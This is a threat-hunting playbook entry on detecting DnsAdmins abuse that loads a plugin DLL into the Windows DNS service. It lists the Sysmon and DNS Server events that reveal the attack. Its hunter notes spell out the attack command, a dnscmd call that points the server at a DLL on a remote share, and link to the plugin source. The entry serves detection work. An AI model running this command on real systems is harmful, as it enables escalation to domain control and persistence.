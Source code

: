 # Windows DNS Server dll injection via RPC (DnssrvOperation2)
## Technique ID
T0000_dns_serverdll_injection


## Description
The Windows DNS Server management protocol, which is based on RPC, allows
DnsAdmins and higher privileged Users to load arbitary dlls as plugins into the
DNS service

You can find a detailed description
[here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).


## Hypothesis
Adversaries might be abusing DNSAdmin privileges to escalate privileges to
Domain Admin and achieve persistence by loading arbitary dlls as plugins into
the DNS service in my environment.


## Events (dnscmd execution)

| Source | EventID | EventField | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| Sysmon | 13 | EventType |SetType - TargetObject gets set (see next line) | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Sysmon | 13 | TargetObject |REGISTRY\MACHINE\SYSTEM\ControlSet001\Services\DNS\Parameters\ServerLevelPluginDll gets set to the dll path | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Microsoft-Windows-DNSServer | 541 | Data Name="Setting" | serverlevelplugindll (**case insensitive**), parameter as set by the attacker when executing dnscmd | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Microsoft-Windows-DNSServer | 541 | Data Name="NewValue" | \\192.168.0.149\dll\wtf.dll (**case insensitive**), parameter to the /serverlevelplugindll command as executed by the attacker | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |


## Events (DNS service restarted)
| Source | EventID | EventField | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 771 | | Event gets logged when a dll plugin is loaded by the DNS service |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 770 | EventData Name="DNS_EVENT_PLUGIN_DLL_LOAD_OK" | |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 770 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| Sysmon | 7 | ImageLoaded | icmp.dll, oleauth32.dll, wtf.dll (specified plugin dll) | details: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |


## Events (when loading the dll failed)
| Source | EventID | EventField | Details | Reference | 
|--------|---------|-------|---------|-----------| 
| DNS Server | 150 | EventData Name="DNS_EVENT_PLUGIN_INIT_FAILED" | |detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |
| DNS Server | 150 | Name="param1" \\192.168.0.149\dll\wtf.dll" | | detailed event log: [dim0x69](https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html) |


## Atomic Sysmon Configuration
[T0000_dns_serverdll_injection.xml](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/blob/master/attack_matrix/windows/sysmon_configs/T0000_dns_serverdll_injection.xml)


## Hunter Notes
We assume the attacker has a privileged user to reconfigure the DNS service:

The attack has to be executed in two steps:

  1. dnscmd.exe dc1.lab.internal /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    - Whereas the dll has to be as a special DNS server plugin dll.
      ([GitHub 0xdim69](https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp))
    - A registry parameter gets added: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll and set to the value \\\\192.168.0.149\dll\wtf.dll

  2. The DNS service gets restarted
    - The DLL is loaded into dns.exe and the API functions are called.

## Hunting Techniques Recommended

- [x] Grouping
- [x] Searching
- [ ] Clustering
- [ ] Stack Counting
- [ ] Scatter Plots
- [ ] Box Plots
- [ ] Isolation Forests

